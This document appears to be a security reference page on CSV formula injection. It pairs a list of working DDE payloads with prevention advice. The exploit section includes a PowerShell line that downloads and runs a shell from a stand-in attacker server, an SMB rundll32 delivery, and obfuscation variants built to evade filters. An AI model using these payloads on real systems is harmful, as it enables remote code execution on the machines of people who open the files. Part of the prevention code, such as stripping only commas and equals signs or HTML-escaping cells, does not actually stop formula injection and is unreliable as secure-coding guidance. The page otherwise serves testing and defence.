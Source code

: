 # CSV Injection

Many web applications allow the user to download content such as templates for invoices or user settings to a CSV file. Many users choose to open the CSV file in either Excel, Libre Office or Open Office. When a web application does not properly validate the contents of the CSV file, it could lead to contents of a cell or many cells being executed.

## Exploit

Basic exploit with Dynamic Data Exchange

```powershell
# pop a calc
DDE ("cmd";"/C calc";"!A0")A0
@SUM(1+1)*cmd|' /C calc'!A0
=2+5+cmd|' /C calc'!A0

# pop a notepad
=cmd|' /C notepad'!'A1'

# powershell download and execute
=cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0

# msf smb delivery with rundll32
=cmd|'/c rundll32.exe \\10.0.0.1\3\2\1.dll,0'!_xlbgnm.A1

# Prefix obfuscation and command chaining
=AAAA+BBBB-CCCC&"Hello"/12345&cmd|'/c calc.exe'!A
=cmd|'/c calc.exe'!A*cmd|'/c calc.exe'!A
+thespanishinquisition(cmd|'/c calc.exe'!A
=         cmd|'/c calc.exe'!A

# Using rundll32 instead of cmd
=rundll32|'URL.dll,OpenURL calc.exe'!A
=rundll321234567890abcdefghijklmnopqrstuvwxyz|'URL.dll,OpenURL calc.exe'!A

# Using null characters to bypass dictionary filters. Since they are not spaces, they are ignored when executed.
=    C    m D                    |        '/        c       c  al  c      .  e                  x       e  '   !   A

```

Technical Details of the above payload:

- `cmd` is the name the server can respond to whenever a client is trying to access the server
- `/C` calc is the file name which in our case is the calc(i.e the calc.exe)
- `!A0` is the item name that specifies unit of data that a server can respond when the client is requesting the data

Any formula can be started with

```powershell
=
+
–
@
```

## Prevention and Best Practices

- **Input Validation:** Validate and sanitize user input before allowing it to be included in CSV files. Proper input validation can prevent malicious data from being injected into the files.
  ```python
    import csv

  def sanitize_input(user_input):
      # Implement your sanitization logic here
      sanitized_input = user_input.replace(',', '').replace('=', '')
      return sanitized_input

  user_data = sanitize_input(user_input)
  with open('data.csv', 'w', newline='') as csvfile:
      csvwriter = csv.writer(csvfile)
      csvwriter.writerow([user_data, 'other_data'])
  ```
- **Output Encoding:** Implement output encoding to ensure that special characters are properly escaped before being included in CSV files. This prevents the execution of malicious commands.
  ```php
    function encode_for_csv($data) {
      return '"' . htmlspecialchars($data, ENT_QUOTES, 'UTF-8') . '"';
  }
  
  $user_data = encode_for_csv($user_input);
  $csv_content = $user_data . ',' . $other_data;
  file_put_contents('data.csv', $csv_content);
  ```
- **Use Prepared Statements:** If interacting with a database, use prepared statements to prevent SQL Injection, which could lead to CSV Injection vulnerabilities.
  ```php
  $stmt = $mysqli->prepare("INSERT INTO table_name (user_data, other_data) VALUES (?, ?)");
  $stmt->bind_param("ss", $user_input, $other_data);
  $stmt->execute();
  ```
- **Content Disposition Headers:** Set Content-Disposition headers with a safe filename when serving CSV files. This helps in preventing browsers from interpreting the CSV files as executable content.
  ```php
  header('Content-Disposition: attachment; filename="safe-file.csv"');
  ```
- **Whitelisting:** Maintain a whitelist of allowed characters and patterns for CSV files. Block any input that does not adhere to these rules.
- **Use Libraries:** Instead of manually generating CSV files, consider using established libraries specific to your programming language/framework. These libraries often handle special characters and encoding issues more effectively.


## References

* [OWASP - CSV Excel Macro Injection](https://owasp.org/www-community/attacks/CSV_Injection)
* [Google Bug Hunter University - CSV Excel formula injection](https://bughunters.google.com/learn/invalid-reports/google-products/4965108570390528/csv-formula-injection)
* [CSV INJECTION: BASIC TO EXPLOIT!!!! - 30/11/2017 - Akansha Kesharwani](https://payatu.com/csv-injection-basic-to-exploit/)
* [From CSV to Meterpreter - 5th November 2015 - Adam Chester](https://blog.xpnsec.com/from-csv-to-meterpreter/)
* [The Absurdly Underestimated Dangers of CSV Injection - 7 October, 2017 - George Mauer](http://georgemauer.net/2017/10/07/csv-injection.html)
* [Three New DDE Obfuscation Methods](https://blog.reversinglabs.com/blog/cvs-dde-exploits-and-obfuscation)
* [Your Excel Sheets Are Not Safe! Here's How to Beat CSV Injection](https://www.we45.com/post/your-excel-sheets-are-not-safe-heres-how-to-beat-csv-injection)

